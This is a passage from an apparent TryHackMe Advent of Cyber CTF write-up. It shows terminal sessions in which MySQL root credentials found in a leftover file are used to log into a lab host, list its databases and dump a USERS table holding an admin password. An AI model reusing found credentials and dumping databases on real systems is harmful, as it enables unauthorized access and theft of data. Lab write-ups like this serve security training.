 ```
ftp> exit
221 Goodbye.
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat file.txt 
remember to wipe mysql:
root
ff912ABD*
```

`file.txt`

3. What is the password after enumerating the database?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mysql -h 10.10.89.226 -uroot -pff912ABD*
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.030 sec)

MySQL [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.030 sec)

MySQL [data]> select * from USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.035 sec)

MySQL [data]> exit
Bye
```
